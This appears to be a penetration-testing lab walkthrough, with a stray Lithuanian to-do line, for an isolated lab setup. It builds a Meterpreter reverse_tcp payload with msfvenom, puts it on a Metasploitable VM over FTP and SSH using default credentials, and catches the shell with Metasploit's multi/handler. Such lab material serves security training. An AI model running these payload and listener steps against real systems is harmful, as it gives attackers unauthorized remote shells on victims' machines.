





- [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to establish a reverse shell on a Linux target using Msfvenom and Metasploit.

**Lab Purpose:**

Msfvenom is a command line instance of Metasploit that is used to generate payloads and can also encode them. How payloads are produced for different purposes is explained in detail in lab 74. It is recommended that you look there for more information.

The Metasploit framework is a powerful tool which can be used to probe systematic vulnerabilities on networks and servers. It provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

**Lab Tool:**

Kali Linux and Metasploitable VM.

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware, the same as Kali Linux. You can download the metasploitable iso file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the Metasploitable VM.

We will use both Kali Linux and Metasploitable for this lab. Remember to put both machines on the same isolated host-only network to talk to each other. When login is required, you will enter “**msfadmin**” as username and password.

### Task 2:

Both msfvenom and metasploit come pre-installed on Kali. We can view the help screen for both tools by typing the following into our terminal:

msfvenom

msfconsole

In this lab, we will be generating a reverse shell payload using “msfvenom” and then using Metasploit to establish a listener. The goal is to establish a shell on our Metasploitable VM.

### Task 3:

To begin, we will first need to create a payload for our Metasploitable VM. To do this, we will use the following command:

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.103 LPORT=5555 -f elf -o reverse-sh.elf

192.168.56.103 is the IP address of our Kali VM in this instance.

Once this is done, type “file reverse-sh.elf ” in your terminal and you should see details of the payload file you just created in your home directory.

### Task 4:

In this step, we will somehow place the payload file on the target machine. Make sure Metasploitable VM is up and running. In this case, we will be transfering the file through FTP. To do this, open a terminal in Kali VM and type the following (1):

ftp 192.168.56.102

192.168.56.102 is the IP address of our Metasploitable VM in this instance. When asked, enter msfadmin as the username and password (2).

We will use the “put“command in FTP to send the payload file to the target machine (3). Next, to the “put” command; we will write the name of the payload file which is “reverse-sh.elf” in this case. After the transfer is complete, let’s make sure that the payload file is at the target location by typing “ls” (4). Finally, we end the FTP session by typing “by” (5).

Our evil binary file has been placed on the victim machine now.

### Task 5:

We then need to make this file executable on our Metasploitable VM. In our Kali terminal screen, type the following (1):

ssh [msfadmin@192.168.56.102](mailto:msfadmin@192.168.56.102)

Type yes when asked if you are sure you want to connect to this host. Then, type msfadmin for the password when prompted (2). We are now connected to our Metasploitable VM through SSH.

We can now make the payload executable by typing the following (3):

chmod +x reverse-sh.elf

Once this is done, leave the SSH connection to our Metasploitable VM open, and open a new terminal. We will now need to establish the listener for the reverse connection which our payload will be sending to our machine.

### Task 6:

To establish the listener, we will be using Metasploit. Start the tool by typing the following in Kali VM:

msfconsole

Then, type the following command to specify that we want to use a listener (1):

use exploit/multi/handler

Once the multi/handler is selected, we need to specify three things: the local host, the local port, and the payload type. We can do this by typing the following commands into the terminal (2,3,4):

set lhost 192.168.56.103  
set lport 5555  
set payload linux/x86/meterpreter/reverse_tcp

Once these commands are entered, you can then type “run” to start the listener (5). You should see

something like the following screenshot.

### Task 7:

Finally, we can execute the payload on our target. Navigate back to terminal screen with the established SSH connection. Then, type the following:

./reverse-sh.elf

Once you hit enter, return to the terminal screen which is running the Metasploit listener. You will see a meterpreter session has started and is now open (1). We have sucessfully established a stable shell! We can access the shell by typing “shell” into meterpreter (2). We can return to the Meterpreter interface from the shell by typing “exit” into the shell.

